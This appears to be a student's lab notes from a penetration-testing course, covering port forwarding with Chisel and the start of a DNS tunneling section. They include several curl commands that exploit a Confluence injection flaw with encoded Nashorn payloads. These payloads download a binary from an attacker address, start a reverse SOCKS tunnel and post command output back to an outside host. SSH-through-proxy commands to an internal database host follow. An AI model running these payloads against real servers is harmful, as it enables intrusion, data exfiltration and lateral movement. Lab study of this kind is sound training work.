 ```Shell
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/
```
#### Downloading Chisel 1.81 from the main Chisel repo, and copying it to the Apache web root directory
```Shell
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
```

```Shell
gunzip chisel_1.8.1_linux_amd64.gz
```

```Shell
sudo cp ./chisel /var/www/html
```
#### The Wget payload executed within our cURL Confluence injection command, again
```Shell
curl http://192.168.186.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.155/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```
#### Trying to start the Chisel client using the Confluence injection payload, again
```Shell
curl http://192.168.186.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.155:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
#### Install ncat
```Shell
apt install ncat
```
#### Passing an Ncat command to ProxyCommand to create an SSH connection through the chisel client
```Shell
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.186.215
```
### For the lab:
- Added `127.0.0.1   1080` to `/etc/proxychains.conf`
- Ran the following command: `proxychains ./chisel_exercise_client -i 10.4.186.215 -p 8008`
## 19.2. DNS Tunneling
### 19.2.1. DNS Tunneling Fundamentals
#### Looking at the basic configuration for our Dnsmasq server (after logging into their FELINEAUTHORITY server over SSH)
```Shell
cd dns_tunneling
```
